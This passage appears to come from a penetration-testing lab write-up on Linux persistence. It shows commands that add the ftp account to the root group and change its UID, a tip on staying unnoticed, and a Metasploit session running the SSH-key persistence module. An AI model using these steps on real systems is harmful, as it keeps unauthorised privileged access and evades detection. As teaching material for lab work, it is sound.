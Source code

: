 ```bash
# Add ftp into root group
usermod -aG root ftp

usermod -u 15 ftp

# Check current group
groups ftp
	ftp : ftp root
```

<figure><img src="../../../../../.gitbook/assets/image (34).png" alt=""><figcaption></figcaption></figure>

❗ Changing user's password is a strong indicator of compromise, it should not be done.

* Perform **SSH Persistence** with a Metasploit persistence modules

```bash
exit # CTRL+C
background
```

```bash
search platform:linux persistence
use post/linux/manage/sshkey_persistence
info
# Description:
#   This module will add an SSH key to a specified user (or all), to 
#   allow remote login via SSH at any time.
set SESSION 4
set CREATESSHFOLDER true
run
```
